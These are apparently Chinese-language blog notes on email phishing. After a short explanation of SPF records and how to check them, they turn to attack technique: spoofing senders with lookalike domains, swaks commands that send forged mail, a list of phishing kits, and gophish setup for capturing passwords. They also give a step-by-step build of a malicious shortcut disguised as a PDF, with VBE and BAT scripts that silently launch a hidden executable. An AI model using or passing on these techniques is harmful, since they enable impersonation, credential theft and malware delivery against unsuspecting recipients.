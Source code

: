 # 钓鱼专栏

## 邮件发送的原理与SPF 检测

### SPF

发件人策略框架（Sender Policy Framework） 电子邮件认证机制当网易企业邮箱的邮件服务器收到自称发件人是[xiaoyi@xxx.com](mailto:xiaoyi@xxx.com)的邮件，那这封邮件是真的从xxx.com的邮件服务发过来的，还是伪造的呢？这时便可通过查询xxx.com的SPF记录进行判断。

检测xxx.com邮件服务器是否开启SPF.
若未对您的域名添加 SPF 解析记录，则 **黑客可以仿冒以该域名为后缀的邮箱，来发送垃圾或诈骗邮件** 。

#### SPF 记录的语法

一条 SPF 记录定义了一个或者多个 mechanism，而 mechanism 则定义了哪些 IP 是允许的，哪些 IP 是拒绝的。这些 mechanism 包括以下几类：

``all | ip4 | ip6 | a | mx | ptr | exists | include`` 每个 mechanism 可以有四种前缀：

"+"Pass（通过）
"-" Fail（拒绝）
"~" Soft Fail（软拒绝）
"?" Neutral（中立）

```

dig -t txt qq.com //linux
nslookup -type=txt qq.com //winodws

"v=spfl -all   拒绝所有，表示这个域名不会发出邮件"
"v=spfl +all   接受所有"
"v=spf1 ip4:192.168.0.1/24 -all  (只允许这个范围内的ip发送邮件)"
"v=spfl mx -all "(允许当前域名的mx记录对应的ip地址发邮件)
"v=spf1 mx mx：test.example.com -all" (允许当前域名和test.example.com 的mx记录对应的ip地址发邮件)
"v=spf1 a mx ip4: [ip] -all " (允许当前域名的a记录和mx记录和一个指定ip地址发送邮件)
"v=spfl include：example.com -all"（采用和example.com 一样的spf记录）
```

#### 邮箱有SFP的攻击方式：

三方中转伪造发信人(修改字眼)
伪造发件人 system@notice.aIiyun.com.cn (I 是大写的 i  而不是 小写的L)

自建中转伪造发信人（需要自己注册邮箱来实现）
注册一个邮箱开启pop3 转发

- 使用网上一直的邮箱一同
  - 将要发送的邮件导出为EML 模版
  - 修改内置的发件人内容时间等
    swaks --to 收件人 -f 发件人 --data 1.eml --server  smtp.163.com -p  25 -au 账号 -ap 授权码
  - 在收件方会显示是代发的邮件

![1723037479314](image/【17】玄机靶场应急响应/1723037479314.png)

自建伪造高仿邮箱系统
https://blog.csdn.net/y995zq/article/details/122963484

### swaks 工具

基本使用：

```
swaks -t qwpcrqskfb@iubridge.com -f eiraaa@eiraaa.com --body 'this is a test email' --header 'Subject:TEST' --ehlo eiraaa.com
--to <接收方的地址>

--from <要显示的发件人邮箱>

--ehlo <伪造的邮件ehlo头>

--body <邮件正文>

--header <邮件头信息，subject为邮件标题>

--data <源邮件>  #可以使用txt格式的邮件原文进行发送邮件
```

**swaks其实还可以进行更高级的邮件伪造，几乎可以伪造邮件中的每一个参数**

下图为kali 虚拟机上swaks 发给我qq邮箱的邮件，qq邮箱有sfp 所以被识别为垃圾邮件

![1723036194029](image/【17】玄机靶场应急响应/1723036194029.png)

### 钓鱼工具

下面列出一些较为经典高效的网络钓鱼工具,并展示以下gophish 工具的部分功能

- gophish
- mip22
- Tycoon 2FA
- setoolkit
- LoginFish(登录页面伪造)
- nexphisher

#### gophish 工具使用

网上一堆教程，可以参考下下面的教程

https://blog.csdn.net/qq_42939527/article/details/107485116

https://forum.butian.net/share/351

![1723039872358](image/【17】玄机靶场应急响应/1723039872358.png)

具体设置不多说，网上一堆教程，主要看看几个注意的配置

- user&Groups: 设置要钓鱼的对象，邮箱，姓名等，主要就是设置发送的邮箱
- Email Templates  如其名，可以设置邮件要发送的内容，这里可以import  eml文件
- landingpages 设置钓鱼页面，支持import site 直接复制url的页面
- sending profiles 设置发送邮件用的邮箱配置

实践例子：

![1723267708520](image/【17】玄机靶场应急响应/1723267708520.png)

点如里面的链接可以跳转到设置好的页面：

![1723267784676](image/【17】玄机靶场应急响应/1723267784676.png)

如果有登录框输入密码的话，会被抓取到；也可以添加附件诱导下载。

### lnk 文件上线

lnk文件是快捷方式文件，将真正的恶意文件(通常经过免杀处理的) 放在一些隐藏路径下，然后通过修改快捷方式连接的文件路径达到上线的目的

#### 通过隐藏目录的方式执行lnk

创建一个隐藏目录，将要用到的木马exe文件（这个例子中用windows自带的计算器程序来代替）和pdf文件都放在这个目录下，同时写一个bat文件来执行这两个文件

将pdf创建lnk文件放在最外层，改为系统图标（__monk文件路径是隐藏的）

![1723288068500](image/【17】邮件钓鱼/1723288068500.png)

![1723288510098](image/【17】邮件钓鱼/1723288510098.png)

将lnk文件执行路径改为 %windir%\system32\cmd.exe /c  .\\__monk\__MONK\star.vbe
这里用 %windir%\system32\cmd.exe  去触发是为了使用 `.\__monk\__MONK\star.vbe` 这个相对路径，在触发的脚本中有识别当前路径和执行

采用嵌套脚本是想规避弹框

star.vbe

```
' 创建 FileSystemObject 实例
Dim fso, scriptPath, batPath, ws

Set fso = CreateObject("Scripting.FileSystemObject")

' 获取当前脚本的完整路径
scriptPath = fso.GetAbsolutePathName(WScript.ScriptFullName)

' 获取当前脚本的目录
scriptDir = fso.GetParentFolderName(scriptPath)

' 构建要运行的 bat 文件的路径
batPath = fso.BuildPath(scriptDir, "star.bat")

' 创建 WScript.Shell 实例
Set ws = WScript.CreateObject("WScript.Shell")

' 运行 bat 文件
ws.Run """" & batPath & """ /start", 0
```

star.bat

```
@echo off

:: 获取当前批处理脚本的路径
set "scriptDir=%~dp0"

:: 移除结尾的反斜杠
set "scriptDir=%scriptDir:~0,-1%"

:: 打开路径下的 Bagel.pdf
start "" "%scriptDir%\Bagel.pdf"

:: 打开计算器
start calc.exe

:: 退出脚本
exit


```

用010editor 打开lnk文件，注意，是打开lnk文件而不是打开cmd.exe

找到 ICON_LOCATION![1723288827076](image/【17】邮件钓鱼/1723288827076.png)

修改为 .\\\__monk\\__MONK\Bagel.pdf 

![1723289185697](image/【17】邮件钓鱼/1723289185697.png)

修改后效果：
![1723289050714](image/【17】邮件钓鱼/1723289050714.png)

再使用010editor 向其中插入全0数据增加大小：

![1723289588839](image/【17】邮件钓鱼/1723289588839.png)

在没有戒备的情况下很容易就觉得这是一个pdf并双击，执行会打开真实的pdf和指定的exe文件。

#### 通过下载的方式执行真正的payload

主要的做法就是lnk文件打开的时候调用的是cmd或powershell 去远程下载payload执行并且远程下载真正的pdf并打开，还没实际测试，后续补充

